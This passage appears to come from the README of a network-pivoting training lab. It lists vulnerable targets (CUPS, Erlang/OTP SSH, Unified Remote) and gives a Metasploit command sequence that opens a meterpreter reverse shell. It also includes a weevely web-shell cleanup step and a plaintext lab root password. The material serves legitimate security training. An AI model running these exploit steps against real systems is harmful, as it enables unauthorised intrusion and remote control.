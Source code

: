 ### Clean up

```
pkill weevely.py
lsof -i tcp:8080
```


### Exploitation

#### Linux exploitation

The linux machine at 10.X.22.50 is vulnerable to CVE-2024-47176, a UDP-based exploit against CUPS 2.4.2 and possibly earlier versions.

It is also vulnerable to CVE-2025-32433 on port 2222. CVE-2025-32433 is an unauthenticated RCE against the SSH server for Erlang/OTP.

Both vulnerabilities are hosted in docker containers through Vulhub. Netcat, curl and socat have been installed in the container to allow for more pivoting.

See `~/tools/exploits/` for the proof of concept exploits.

#### Windows exploitation

The Windows machine at 10.X.22.60 is vulnerable to CVE-2022-3229, an authentication bypass in Unified Remote version 3.11.0.2483 and prior.  Windows Defender has been turned off to allow you to use the metasploit module for this exploit.

```
msfconsole -q
use exploit/windows/misc/unified_remote_rce
set RHOST 10.X.22.60
set LHOST eth0 
set payload windows/meterpreter/reverse_tcp
run
```

You can also log in as root using the SSH key on the kali machine, or with plaintext credentials over winrm, ssh or RDP:

root:PivotLab1!

# References

- https://github.com/opsdisk/the_cyber_plumbers_handbook
- http://www.dest-unreach.org/socat/doc/socat-tun.html
- https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/
- https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/
- https://latest.gost.run/en/
- https://gost.run/en/tutorials/
- https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/
- https://gitbook.seguranca-informatica.pt/cheat-sheet-1/stuff/pivoting
